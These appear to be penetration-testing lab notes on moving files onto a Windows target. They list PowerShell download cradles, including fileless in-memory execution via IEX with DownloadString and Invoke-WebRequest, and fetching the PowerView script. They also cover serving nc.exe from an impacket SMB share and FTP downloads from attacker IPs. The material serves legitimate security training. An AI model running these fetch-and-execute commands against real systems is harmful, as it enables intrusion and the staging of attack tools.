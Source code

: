 `PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')`

PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the [Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2) cmdlet or the alias `IEX`.

`PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')`

`IEX` also accepts pipeline input.

`PS C:\htb> (New-Object Net.WebClient).DownloadString('<Target File URL>') | IEX`

From PowerShell 3.0 onwards, the [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2) cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases `iwr`, `curl`, and `wget` instead of the `Invoke-WebRequest` full name.

`PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`

<aside>
💡 Harmj0y has compiled an extensive list of PowerShell download cradles [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239).

</aside>

There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

This can be bypassed using the parameter `-UseBasicParsing`.

`PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX`

**Certificate not trusted error**

`PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('<Target File URL>')`

## **SMB Downloads**

`XeroCyb3r@htb[/htb] sudo impacket-smbserver share -smb2support /tmp/smbshare`

`C:\htb> copy \\192.168.220.133\share\nc.exe`

With a username & password

`XeroCyb3r@htb[/htb] sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`

`C:\htb> net use n: \\192.168.220.133\share /user:test test`

## **FTP Downloads**

`XeroCyb3r@htb[/htb] sudo pip3 install pyftpdlib`

`XeroCyb3r@htb[/htb] sudo python3 -m pyftpdlib --port 21`

`PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')`
